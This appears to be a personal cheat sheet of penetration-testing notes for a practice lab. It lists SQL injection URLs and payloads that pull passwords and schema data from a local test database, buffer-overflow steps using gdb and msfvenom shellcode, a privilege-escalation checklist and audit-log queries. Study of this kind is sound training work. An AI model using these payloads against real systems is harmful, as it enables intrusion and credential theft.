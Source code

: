 http://0.0.0.0:40756/cases/productsCategory.php?category=1%20UNION%20select%20last_name,password,email%20FROM%20sqlinjection.members;#
RAM' UNION select table_schema,column_name FROM information_schema.columns; #

UNION @@version
RAM' UNION select 1,@@version; #       GIVES SQL VERSION

http://0.0.0.0:40756/cases/productsCategory.php?category=1%20UNION%20SELECT%20Table_schema,column_name,Table_name%20FROM%20information_schema.columns;%20#
http://0.0.0.0:40756/cases/productsCategory.php?category=1%20UNION%20SELECT%201,comment,data%20FROM%20sqlinjection.share4%20WHERE%20id=1337;%20#

./func <<<$(./Desktop/Security/Linux/mybuff.py)        runs func and injects mybuff as the input

./func "YahWeh"                   Command Line Argument
Enter a string: 
./func <<<$(echo "YahWeh")        User Input
Enter a string: 


env - gdb ./func                  Starts gdb without environment variables
unset LINES(OR COLUMNS)           removes gdb environmental variables
gdb ./func
info functions
pdisass main

find /b 0xf7de1000, 0xffffe000, 0xff, 0xe4    Searches starting after the heap to the end of the stack for a jump instruction pointing to the EIP

#PAYLOADS
  msfvenom -p linux/x86/exec CMD=ifconfig -b '\x00' -f python




Privilege Escalation
	Order of Operations
		sudo -l			Checks current user privileges
		id				Displays user and group ID's associated with logged in account
		uname -a			Shows hostname, OS version, Architecture
		ss -natu | netstat -natu	Shows network connections
		ls -la /etc/sudoers		Shows permissions for /etc/sudoers file

/tmp						Both of these are temporary directories
/dev/shm					

How To Figure Out Init Type
	Commands
		ls -latr /proc/1/exe
		stat /sbin/init
		man init
		init --version
		ps 1

audit.log					Kernel Log for SystemV
	ausearch -p 22
	ausearch -m USER_LOGIN -sv no
	ausearch -ua edwards -ts yesterday -te now -i
